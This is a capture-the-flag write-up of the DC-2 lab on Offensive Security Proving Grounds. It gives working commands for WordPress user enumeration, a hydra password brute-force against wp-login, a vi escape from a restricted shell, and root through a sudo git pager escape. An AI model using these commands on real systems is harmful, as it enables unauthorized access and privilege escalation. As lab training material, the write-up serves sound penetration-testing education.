






# 
**Date:** September  2022

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** 

<br>


<br>

## Objectives
- local.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Did not follow redirect to http://dc-2/
```

Noticing the failed redirect I added dc-2 to my hosts file and ran the nmap scan again:

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-generator: WordPress 4.7.10
|_http-title: DC-2 &#8211; Just another WordPress site
```

And an all ports scan uncovered an open ssh port:

```
PORT     STATE SERVICE VERSION
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
```

<br>

## Website Digging

Visiting the main page:



Looking at the Flag tab shows us:



It's a WordPress site so I check to see if the standard login page location is there, and it is:



I fire up wpscan to see if I can enumerate any users and find 3:

`wpscan --url http://dc-2 --enumerate`



I build a wordlist with CeWL as the Flag tab suggested:

`cewl http://dc-2/ -m 1 -d 3 --with-numbers -w cewl-list.txt`

Looks like it produced a word list with 238 words:

`wc -l cewl-list.txt`

```
268 cewl-list.txt
```

And running a hydra brute force with our newly created password list and the list of users we found:

`hydra -L users.txt -P cewl-list.txt dc-2 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -V`

```
[80][http-post-form] host: dc-2   login: tom   password: <REDACTED>
[80][http-post-form] host: dc-2   login: jerry   password: <REDACTED>
```

We didn't find admin, but we did find both tom and jerry.

I login as jerry and under the pages section find our flag 2 hint:



That tells me we can't exploit WordPress and the reference to another entry point is probably SSH on port 7744 that we found earlier. Let's give that a shot.

<br>

## System Access

I try and ssh over as jerry:

`ssh jerry@$ip -p 7744`

```
jerry@192.168.118.194's password: 
Permission denied, please try again.
```

No luck. I try tom and get in:

```
tom@192.168.118.194's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tom@DC-2:~$
```

<br>

## System Enumeration

Our shell doesn't appear to have a lot going for it and is restricted. We can't use the cat command, which command, and all sorts of others.

```
tom@DC-2:~$ ls
flag3.txt  local.txt  usr
tom@DC-2:~$ cat local.txt
-rbash: cat: command not found
```

I am able to use the less command on local.txt to get our first flag.

And looking at flag3.txt:

```
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
flag3.txt (END)
```

We have a directory called usr in our home directory but when trying to change to it we're restricted from using the cd command. I run an ls on it:

```
tom@DC-2:~$ ls -al usr
total 12
drwxr-x--- 3 tom tom 4096 Mar 21  2019 .
drwxr-x--- 3 tom tom 4096 Sep 12 20:16 ..
drwxr-x--- 2 tom tom 4096 Mar 21  2019 bin
tom@DC-2:~$ ls -al usr/bin
total 8
drwxr-x--- 2 tom tom 4096 Mar 21  2019 .
drwxr-x--- 3 tom tom 4096 Mar 21  2019 ..
lrwxrwxrwx 1 tom tom   13 Mar 21  2019 less -> /usr/bin/less
lrwxrwxrwx 1 tom tom    7 Mar 21  2019 ls -> /bin/ls
lrwxrwxrwx 1 tom tom   12 Mar 21  2019 scp -> /usr/bin/scp
lrwxrwxrwx 1 tom tom   11 Mar 21  2019 vi -> /usr/bin/vi
```

So it looks like we're only allowed to use those 4 commands from what I can tell.

I take a look at export to see what variables are set and see the following:

```
tom@DC-2:~$ export
declare -x HOME="/home/tom"
declare -x LANG="en_US.UTF-8"
declare -x LOGNAME="tom"
declare -x MAIL="/var/mail/tom"
declare -x OLDPWD
declare -rx PATH="/home/tom/usr/bin"
declare -x PWD="/home/tom"
declare -rx SHELL="/bin/rbash"
declare -x SHLVL="1"
declare -x SSH_CLIENT="192.168.49.118 46804 7744"
declare -x SSH_CONNECTION="192.168.49.118 46804 192.168.118.194 7744"
declare -x SSH_TTY="/dev/pts/0"
declare -x TERM="xterm-256color"
declare -x USER="tom"
tom@DC-2:~$ export SHELL='/bin/bash'
-rbash: SHELL: readonly variable
```

The shell is set to read only so I couldn't modify it that way.

I start up vi to see if I can escape this restricted shell through it:

```
:set shell=/bin/bash
:shell
```

And testing if it worked with the `echo $0` command:

```
tom@DC-2:~$ echo $0
/bin/bash
```

Ok we've escapted that annoying shell but we still can't use many commands due to our path being what it is. I copy the path variable from my local machine and export it:

`export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games`

And testing to see if we can use the `cat` command now:

```
tom@DC-2:~$ cat flag3.txt
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```

I check to see if we can use `sudo -l` and no luck.

The flag3 hint mentions using su to switch over to jerry:

```
tom@DC-2:~$ su jerry
Password: 
jerry@DC-2:/home/tom$ whoami
```

In jerrys home directory we find flag4.txt:

```
jerry@DC-2:~$ cat flag4.txt
Good to see that you've made it this far - but you're not home yet. 

You still need to get the final flag (the only flag that really counts!!!).  

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
```

I check `sudo -l` again on jerry and we have something!

```
jerry@DC-2:~$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```

Looking on GTFOBins shows us we can use this to get root.

<br>

## Root

`sudo git -p help config`

Then type this to break out to root:

`!/bin/sh`

```
!/bin/sh
# whoami
root
```

And we can get our proof.txt flag now:

`wc -c /root/proof.txt`

```
33 /root/proof.txt
```

And we also see final-flag.txt in the /root home directory:

```
# cat final-flag.txt
 __    __     _ _       _                    _ 
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/ 
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/   


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```

<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap**
- Using **wpscan** to enumerate users on the website
- Building a custom wordlist with **CeWL**
- Taking the users we found and the wordlist we build and brute forcing our way into the website with **hydra**
- Using the website credentials to ssh into the system for our initial foothold
- Finding ourselves in a **heavily restricted shell** and using the **vi** command to break out of it
- Laterally moving to another user vi the **su** command
- Fiding that the new user can run the **git** command via sudo and using that to escalate to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
